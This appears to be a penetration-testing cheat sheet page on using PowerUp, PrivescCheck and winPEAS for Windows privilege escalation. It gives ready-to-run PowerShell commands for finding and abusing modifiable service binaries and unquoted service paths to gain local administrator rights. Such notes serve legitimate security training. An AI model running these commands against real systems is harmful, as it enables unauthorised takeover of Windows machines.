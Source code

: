 # PowerUp

[PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) is a PowerShell tool used for privilege escalation on Windows systems. It helps identify misconfigurations and exploitable settings that allow users to elevate their privileges. It typically can be found at `/share/windows-resources/powersploit/Privesc/PowerUp.ps1`.

{% tabs %}
{% tab title="Service Cmds" %}
PowerShell commands for service interaction:

```powershell
# Service status
Get-Service -Name 'BackupMonitor'

# Start/Stop the service
Start-Service -Name "<ServiceName>"
Stop-Service -Name "<ServiceName>" -Force

# Restart the service
Restart-Service -Name 'BackupMonitor' -Force
```
{% endtab %}

{% tab title="AllChecks" %}
```powershell
Invoke-AllChecks
```

Details with examples on how an abuse works:

```powershell
help invoke-serviceabuse -examples
```

[PrivescCheck](https://github.com/itm4n/PrivescCheck) and [winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS) can also be used for full coverage:

```powershell
# PrivescCheck
Invoke-PrivEscCheck

# PEASS-ng
winPEASx64.exe -all
```
{% endtab %}

{% tab title="Binary Hijacking" %}
Enumerate potentially vulnerable services:

```powershell
# Services that user can modify their binary path or change args to the binary
Get-ModifiableServiceFile

# Service that user can modify their configurations
Get-ModifiableService

# Abuse the enumerate service
Install-ServiceBinary -Name 'mysql'

# Restart the service
Restart-Service -Name 'mysqld' -Force

# Confirm that it worked
> net localgroup administrators
```
{% endtab %}

{% tab title="Unquoted Paths" %}
{% code overflow="wrap" %}
```powershell
# Services with unquoted paths that also have a space in the name
Get-ServiceUnquoted
Get-UnquotedService

# Abuse
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

# Restart (ignore any erros)
Restart-Service GammaService

# Confirm
net localgroup administrators
```
{% endcode %}
{% endtab %}
{% endtabs %}
